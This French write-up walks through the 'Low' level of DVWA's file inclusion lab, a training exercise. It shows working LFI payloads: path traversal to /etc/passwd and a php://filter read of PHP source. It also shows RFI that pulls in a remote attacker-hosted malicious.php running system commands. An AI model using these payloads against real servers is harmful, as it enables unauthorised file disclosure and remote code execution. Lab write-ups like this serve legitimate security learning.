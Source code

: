 # Niveau "Low"

Ce challenge propose une première page permettant d'accéder à trois fichiers nommés respectivement "file1.php", "file2.php" et "file3.php" :

![](../../../../.gitbook/assets/d513ac6fd858482c45cf09f35f0593d7.png)

Dont voici le contenu du fichier "file1.php" :

![](../../../../.gitbook/assets/8be03bac1ed4c2ab6587df1fdef97d28.png)

Du fichier "file2.php" :

![](../../../../.gitbook/assets/974fe5f5ca7d43775430e06a87646d24.png)

Ainsi que de "file3.php" :

![](../../../../.gitbook/assets/a701d84bd50ba8b731ee7c735e68f7ce.png)

**Local File Inclusion (LFI)**

Ce qui est important de repérer ici, c'est que le nom du fichier à inclure se retrouve en tant que valeur du paramètre `page` présent dans l'URL :

![](../../../../.gitbook/assets/3a508a736095328be32d907b97cb7749.png)



_Inclusion d'un fichier local du même niveau d'arborescence_

Une première attaque va consister à inclure des pages localement présentes, soit une LFI. Avec, dans un premier temps, un fichier au même niveau de l’arborescence :

![](../../../../.gitbook/assets/d6b64cb00929508c36c0d672cd144f56.png)



_Inclusion d'un fichier local en utilisant une attaque de type path traversal_

Ou alors, de sortir du niveau courant de l'arborescence et d'utiliser dans le même temps une autre attaque nommée path traversal (ou directory traversal). Cette attaque consiste à injecter des occurrences de type `../` (ou équivalent) afin de remonter l’arborescence du système vulnérable :

![](../../../../.gitbook/assets/90195f7432883cf0d78823d0f5c7aeeb.png)

{% hint style="info" %}
Il est possible sous DVWA en niveau "Low" d'utiliser directement la syntaxe `?page=/etc/passwd` mais cela peut ne pas fonctionner suivant l'application ou le système cible
{% endhint %}



_Utilisation des wrappers PHP_

Lorsqu'une vulnérabilité LFI est détectée, il peut être utile, si cela est possible, d'utiliser les wrappers PHP afin d'avoir plus d'impact. Par exemple, le wrapper `php://filter` peut être utilisé pour récupérer le code source des pages `.php` . Dans l'exemple suivant, je récupère le code source (en haut de la page, encodé en base64) de la page `include.php` :

```http
?page=php://filter/convert.base64-encode/resource=include.php
```

![](../../../../.gitbook/assets/df136bf6f7dfc8bc478d6d12001362e5.png)

Une fois décodée (il s'agit juste d'un extrait) :

![](../../../../.gitbook/assets/ecc0129a677c8961d5f67ff64613be82.png)

D'autres wrappers sont intéressants à exploiter et peuvent mener à une RCE.



**Remote File Inclusion (RFI)**

Une RFI survient quand il est possible d'injecter/d'inclure un fichier distant. Ici un exemple simple est l'inclusion de la page `google.fr` :

```http
?page=http://www.google.fr
```

![](../../../../.gitbook/assets/d275ac6038a70e54f0a0e18ec0b2daa8.png)

Cette attaque peut permettre d'inclure un script malicieux distant (hébergée sur une machine contrôlée par l'attaquant). L'exemple ici ne fera que retourner le nom de la machine (qui est, dans mon cas, l'identifiant de l'instance docker) :

{% code title="malicious.php" %}
```php
<?php
  system('hostname');
?>
```
{% endcode %}

![](../../../../.gitbook/assets/8e56ab467f02f4a731a6aa507973589e.png)

Cela mène donc à une prise de contrôle du serveur.

{% hint style="info" %}
Cela ne s'arrête pas là mais les possibilités sont vastes : récupération d'un shell plus complet, maintien de l'accès, tentative d'élévation de privilèges, pivotage, ...
{% endhint %}
